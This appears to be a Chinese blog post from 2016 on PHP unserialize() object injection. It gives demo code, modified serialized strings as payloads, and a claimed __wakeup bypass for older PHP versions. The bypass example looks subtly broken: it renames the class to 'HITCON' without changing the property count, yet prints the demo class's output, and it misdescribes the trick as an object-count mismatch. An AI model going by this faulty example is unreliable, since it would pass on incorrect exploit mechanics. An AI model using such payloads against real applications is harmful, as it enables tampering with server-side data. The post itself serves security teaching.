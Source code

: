 ```yaml
---
layout: post
title:  "php unserialize()/wakeup()漏洞"
date:   2016-10-29 09:31:40 +0800
categories: web
---
```

unserialize和serialize这里不做赘述。

unserialize的漏洞在magic function上，如果一个类定义了\_\_wakup()和\_\_destruct()，则该类的实例被反序列化时，会自动调用\_\_wakeup(), 生命周期结束时，则调用\_\_desturct()。


下面提供一个简单的demo.

```php
class Demo
{

    public $data;

    public function __construct($data)
    {
        $this->data = $data;
        echo "construct<br />";
    }

    public function __wakeup()
    {
        echo "wake up<br />";
    }

    public function __destruct()
    {
        echo "Data's value is $this->data. <br />";
        echo "destruct<br />";
    }
}

var_dump(serialize(new Demo("raw value")));

```

输出

````php
construct
Data's value is raw value.
destruct
string(44) "O:4:"Demo":1:{s:4:"data";s:9:"raw value";}" 
```

把序列化的字符串修改一下后，执行

```php
unserialize('O:4:"Demo":1:{s:4:"data";s:15:"malicious value";}');
```

输出

```
wake up
Data's value is malicious value.
destruct
```

这里看到，值被修改了.

上面是一个unserialize()的简单应用，不难看出，如果\_\_wakeup()或者 \_\_desturct()有敏感操作，比如读写文件、操作数据库，就可以通过函数实现文件读写或者数据读取的行为。

那么，在\_\_wakeup()中加入判断是否可以阻止这个漏洞呢？
在\_\_wakeup()中我们加入一行代码

```php
    public function __wakeup()
    {
        if($this->data != 'raw value') $this->data = 'raw value';
        echo "wake up<br />";
    }
```

但其实还是可以绕过的，在 PHP5 < 5.6.25， PHP7 < 7.0.10 的版本都存在wakeup的漏洞。当反序列化中object的个数和之前的个数不等时，wakeup就会被绕过，于是使用下面的payload

```php
unserialize('O:7:"HITCON":1:{s:4:"data";s:15:"malicious value";}');
```

输出

```
Data's value is malicious value.
destruct
```

这里wakeup被绕过，值依旧被修改了。
